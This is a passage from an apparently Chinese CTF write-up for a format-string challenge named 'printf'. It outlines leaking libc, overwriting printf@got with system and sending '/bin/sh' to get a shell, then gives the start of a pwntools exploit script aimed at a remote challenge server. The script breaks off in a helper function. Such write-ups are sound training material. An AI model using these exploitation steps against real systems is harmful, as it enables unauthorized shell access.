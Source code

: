 ```python
menu(1)
# r.debugf("record\nb system\nc")
r.sla("size?",str(r.libc.address+0x18cd57))

r.ia()
```

## printf

1 solved

### 题目描述

`@Lewis`出的题, 难度貌似刚好? (本来我还以为太简单了的...
网上应该也能找到类似的, 随便翻个exp大概就出来了吧=.=

printf leak libc, 然后写printf@got为system, 下一次read一个/bin/sh;进去, getshell

### 利用

一把梭, 虽然我本地不行, 但是远程通了. XD

``` python
from pwn import *

class leak:
	pass

context(os="linux", arch="amd64", log_level="debug")
filename = "./printf"
addr = "39.108.134.72"
port = 9999
REMOTE = 1
l = leak()
if REMOTE == 0:
	p = process(filename, aslr=0)
	libcname = "/lib/x86_64-linux-gnu/libc.so.6"
else:
	p = remote(addr, port)
	libcname = "./libc.so.6"
e = ELF(filename)
libc = ELF(libcname)

sd = lambda s="" : p.send(str(s))
sl = lambda s="" : p.sendline(str(s))
rc = lambda n=4096 : p.recv(n)
ru = lambda s="", drop=True : p.recvuntil(str(s), drop=drop)

def show_leak():
	global l
	try:
		log.info("libc: "+hex(l.libc))
	except:
		pass
	try:
		log.info("heap: "+hex(l.heap))
	except:
		pass
	try:
		log.info("stack: "+hex(l.stack))
	except:
		pass
	try:
		log.info("prog: "+hex(l.prog))
```